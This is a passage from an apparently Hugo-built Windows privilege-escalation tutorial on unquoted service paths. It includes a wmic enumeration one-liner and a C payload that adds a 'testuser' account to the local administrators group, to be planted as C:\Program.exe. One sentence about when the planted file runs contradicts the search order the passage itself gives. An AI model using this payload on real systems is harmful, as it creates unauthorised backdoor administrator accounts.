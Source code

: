 {{< /details >}}

When the service restarts, it may load your malicious DLL instead of the legitimate one.

---

## Unquoted Service Paths

When a **Windows service** is installed with an **unquoted path** and the path contains **spaces**, Windows does **not know where the executable truly begins and ends** unless quotes (`"`) are used. It will **try to execute each potential path segment** until it finds a matching file. If one of these path segments is **writable by a low-privilege user**, you can place a **malicious executable** there, which will get executed with **SYSTEM privileges** the next time the service starts.

{{< details summary="What Windows will try to do" >}}
Suppose a Windows service is registered like this:

```dos
C:\Program Files\My App\bin\service.exe
```

Notice that the path has spaces and is not enclosed in quotes.

Here's what Windows will try to do:
Windows tries to execute the following, in this order:
* `C:\Program.exe`
* `C:\Program Files\My.exe`
* `C:\Program Files\My App\bin\service.exe` (this is the real one)

If `C:\Program Files\My App\bin\service.exe` doesn't exist, you can place a file called `C:\Program.exe`, that will get executed instead, with SYSTEM privileges.

{{< /details >}}

**To exploit this**:
* There must be an `unquoted service path` with spaces in it.

    ```dos
    wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
    ```

* One of the earlier-resolved paths must be `writable` by a low-privileged user. To check access rights, use `icacls` in each path. 
* You must be able to `create a malicious executable` in that path.

    ```C
    #include <stdlib.h>
    int main ()
      {
        int i;
        i = system ("net user testuser somepassword /add");
        i = system ("net localgroup administrators testuser /add");
      }
    ```

* The service must `restart` (manually or through a system reboot).
